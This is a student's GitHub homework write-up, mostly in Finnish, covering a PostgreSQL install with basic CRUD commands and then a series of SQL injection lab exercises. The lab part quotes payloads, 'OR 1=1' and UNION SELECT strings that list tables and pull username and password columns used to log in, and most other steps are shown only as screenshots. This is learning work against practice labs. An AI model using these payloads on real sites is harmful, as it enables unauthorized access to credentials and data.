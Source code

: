 # h5

PostgreSQL Install and One Table Database – SQL CRUD tutorial for Ubuntu

Three line install
$ sudo apt-get update
$ sudo apt-get -y install postgresql
$ sudo systemctl start postgresql # needed in 2023
$ sudo -u postgres createdb $(whoami)
$ sudo -u postgres createuser $(whoami)
The trick is to use your Linux system username for PostgreSQL database and PostgreSQL user. Then authentication is automatic.

$ psql

table

tero=> CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));
CREATE TABLE

insert

tero=> INSERT INTO students(name) VALUES ('Tero');
INSERT 0 1

select

tero=> SELECT * FROM students;

update

tero=> UPDATE students SET name='Tero Karvinen' WHERE name='Tero';

UPDATE 1

delete

tero=> DELETE FROM students WHERE name='Liisa';
DELETE 1
tero=> SELECT * FROM students;

SQL injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

Passwords.
Credit card details.
Personal user information.

You can detect SQL injection manually using a systematic set of tests against every entry point in the application. 

a.)
ensiksi asensin ja käynnistin postgreSQL tietokannan

![alku](https://github.com/AkiAleksi/h5/assets/112399816/194cd8be-a30c-43e2-a335-f66ab08e8ec7)


Sen jälkeen loin tietokannan ja käyttäjän.


$ sudo -u postgres createdb kali


$ sudo -u postgres createuser kali


Tein käyttäjästä kali databasen ownerin komennolla:



sudo -u postgres psql -c "ALTER DATABASE kali OWNER TO kali;"



![alku3](https://github.com/AkiAleksi/h5/assets/112399816/59879e3a-48f4-4867-9e67-2102bd76bae2)


Loin uuden taulun:

CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));

![1jee](https://github.com/AkiAleksi/h5/assets/112399816/d33a7880-6ad9-4c9e-b5be-d437df410e65)


CRUD
Loin uuden nimen tauluun.

INSERT INTO students(name) VALUES ('Aki');

Sen jälkeen tein Read kohdan komennolla:

SELECT * FROM students;

![2jee](https://github.com/AkiAleksi/h5/assets/112399816/0d4d2d24-e0f2-4c7d-b2b1-3793d2d516b6)


Päivitin nimen Aki. Nimeen Aki Hietamäki:

UPDATE students SET name='Aki Hietamäki' WHERE name='Aki Hietamäki'; 

![3jee](https://github.com/AkiAleksi/h5/assets/112399816/c6b810fb-84b6-487a-a866-d2884351726e)




Sen jälkeen poistin:

DELETE FROM students WHERE name='Aki';


![4jee](https://github.com/AkiAleksi/h5/assets/112399816/0d65a9ca-9814-4d9f-be7b-bd7765676269)


b.)

SELECT * FROM Users WHERE id = 10 OR 1=1;


The SQL above is valid and will return ALL rows from the "Users" table, since OR 1=1 is always TRUE.

id avain on valmiina ohjelmassa. Käyttäjän syöte on id:n arvo ja johon on jatkettu OR lause.


![xdddd](https://github.com/AkiAleksi/h5/assets/112399816/e7b429b9-d019-493d-a320-c45d753e8f7e)

c.)


![Screenshot 2023-11-24 at 14 12 37](https://github.com/AkiAleksi/h5/assets/112399816/f305305f-dbc7-41e8-b524-3ba3e7f4d075)



![Screenshot 2023-11-24 at 14 13 13](https://github.com/AkiAleksi/h5/assets/112399816/c700b799-ade3-4bb8-a589-90c5960d7900)



d.)



![Screenshot 2023-11-24 at 14 22 13](https://github.com/AkiAleksi/h5/assets/112399816/6501edc1-4712-43ec-8f7b-467a8b1a8e89)



![Screenshot 2023-11-24 at 14 23 20](https://github.com/AkiAleksi/h5/assets/112399816/810df58f-6ba5-4ae5-82f7-c5a7e251c392)


e.)




![Screenshot 2023-11-24 at 15 17 33](https://github.com/AkiAleksi/h5/assets/112399816/b5504c02-1e81-435c-8e0a-71fd18f03f08)




f.)


![Screenshot 2023-11-24 at 16 37 05](https://github.com/AkiAleksi/h5/assets/112399816/34d1186f-c68b-4e5b-bddb-0fd5ed2d287a)





![Screenshot 2023-11-24 at 16 37 50](https://github.com/AkiAleksi/h5/assets/112399816/ffd305ee-84c6-4854-8f9b-ac9d991ad8f1)







![Screenshot 2023-11-24 at 16 38 20](https://github.com/AkiAleksi/h5/assets/112399816/87f1af3d-33dc-4e81-aac8-655b4e6d5826)



g.)


Etsin kaikki taulut tietokannasta

'union+select+table_name,'123'+from+all_tables--

![user1](https://github.com/AkiAleksi/h5/assets/112399816/088dba52-1367-410c-a349-a9108927e78d)



![user2](https://github.com/AkiAleksi/h5/assets/112399816/1993c581-7e6a-4209-a78e-a30807da7946)


Löytyi PASSWORD_ ja USERNAME_ sarakkeet

![Screenshot 2023-11-25 at 12 53 09](https://github.com/AkiAleksi/h5/assets/112399816/75ec55ae-f133-4273-a09f-b0a3406db76e)

'+union+select+PASSWORD_RNBGTX,USERNAME_ECTSRI+from+USERS_VYMYAO--


![info](https://github.com/AkiAleksi/h5/assets/112399816/2e9d88f1-7fb7-44bc-8d93-30671a33410d)


Kirjauduin tiedoilla MY account


![okkkk](https://github.com/AkiAleksi/h5/assets/112399816/344ac34f-7b55-4826-bfc8-baf0cd398285)


h.)

Katsoin läpikävelyn kyseisestä tehtävästä.

'UNION+SELECT+NULL,NULL--


internal server error

Lisäsin NULL niin kauan, että ei tullut erroria.

'UNION+SELECT+NULL,NULL,NULL,NULL--


![Screenshot 2023-11-25 at 13 38 10](https://github.com/AkiAleksi/h5/assets/112399816/fcbcb7f7-1bb3-4f1f-a7af-4aa00c957c6a)






![Screenshot 2023-11-25 at 13 34 49](https://github.com/AkiAleksi/h5/assets/112399816/5f0a0222-1079-415b-9746-a702579cc0c6)

i.)


![ggg](https://github.com/AkiAleksi/h5/assets/112399816/3b1b10d9-04ca-43c7-b75b-b905b4961710)




![Screenshot 2023-11-25 at 14 02 58](https://github.com/AkiAleksi/h5/assets/112399816/1d823a47-037a-41ec-ba18-5000374d0c37)



![Screenshot 2023-11-25 at 14 07 55](https://github.com/AkiAleksi/h5/assets/112399816/2035889e-45f1-4cec-93b7-696b26b7357f)

j.)




![admin1](https://github.com/AkiAleksi/h5/assets/112399816/87743028-bcfd-493f-92f9-4e1e5e23769b)





![kkkkkkkkkk](https://github.com/AkiAleksi/h5/assets/112399816/ce1024f6-f6f4-4688-a31e-710b8393cee5)






![ratkaisu](https://github.com/AkiAleksi/h5/assets/112399816/2bc8f513-880a-47d8-a856-45cdc6689196)

